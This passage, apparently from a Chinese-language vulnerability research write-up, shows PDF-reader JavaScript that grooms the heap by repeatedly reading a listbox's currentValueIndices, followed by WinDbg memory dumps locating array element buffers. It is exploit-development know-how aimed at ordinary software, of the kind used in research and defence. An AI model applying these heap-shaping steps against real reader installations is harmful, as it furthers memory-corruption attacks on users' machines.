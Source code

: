 ```
Allocation Protect:     00000004          PAGE_READWRITE

Content source: 1 (target), length: d6618
```

我意识到ESObjectCreateArrayFromESVals和ESObjectCreate也分配到这个区域。我使用currentValueIndices函数来调用ESObjectCreateArrayFromESVals：

```
/* prepare array elements buffer */
f = this.addField("f" , "listbox", 0, [0,0,0,0]);
t = Array(32)
for(var i=0; i&lt;32; i++) t[i] = i
f.multipleSelection = 1
f.setItems(t)
f.currentValueIndices = t
// every time currentValueIndices is accessed `ESObjectCreateArrayFromESVals` is called to create a new array.
for(var j=0; j&lt;THRESHOLD_SZ; j++) f.currentValueIndices
```

查看ESObjectCreateArrayFromESVals返回值，可以看到JSObject 0d2ad1f0不在堆上，但是它的elements缓冲区却在08c621e8上。ffffff81是表示数字的标签，就像ffffff85表示字符串，ffffff87表示对象一样。

```
0:000&gt; dd @eax
0da91b00  088dfd50 0d2ad1f0 00000001 00000000
0da91b10  00000000 00000000 00000000 00000000
0da91b20  00000000 00000000 00000000 00000000
0da91b30  00000000 00000000 00000000 00000000
0da91b40  00000000 00000000 5b9868c6 88018800
0da91b50  0dbd61d8 537d56f8 00000014 0dbeb41c
0da91b60  0dbd61d8 00000030 089dfbdc 00000001
0da91b70  00000000 00000003 00000000 00000003
0:000&gt; !heap -p -a 0da91b00
    address 0da91b00 found in
    _HEAP @ 5570000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        0da91af8 000a 0000  [00]   0da91b00    00048 - (busy)

0:000&gt; dd 0d2ad1f0
0d2ad1f0  0d2883e8 0d225ac0 00000000 08c621e8
0d2ad200  0da91b00 00000000 00000000 00000000
0d2ad210  00000000 00000020 0d227130 0d2250c0
0d2ad220  00000000 553124f8 0da8dfa0 00000000
0d2ad230  00c10003 0d27d180 0d237258 00000000
0d2ad240  0d227130 0d2250c0 00000000 553124f8
0d2ad250  0da8dcd0 00000000 00c10001 0d27d200
0d2ad260  0d237258 00000000 0d227130 0d2250c0
0:000&gt; dd 08c621e8
08c621e8  00000000 ffffff81 00000001 ffffff81
08c621f8  00000002 ffffff81 00000003 ffffff81
08c62208  00000004 ffffff81 00000005 ffffff81
08c62218  00000006 ffffff81 00000007 ffffff81
08c62228  00000008 ffffff81 00000009 ffffff81
08c62238  0000000a ffffff81 0000000b ffffff81
08c62248  0000000c ffffff81 0000000d ffffff81
08c62258  0000000e ffffff81 0000000f ffffff81

0:000&gt; dd 08c621e8
08c621e8  00000000 ffffff81 00000001 ffffff81
08c621f8  00000002 ffffff81 00000003 ffffff81
08c62208  00000004 ffffff81 00000005 ffffff81
08c62218  00000006 ffffff81 00000007 ffffff81
08c62228  00000008 ffffff81 00000009 ffffff81
```
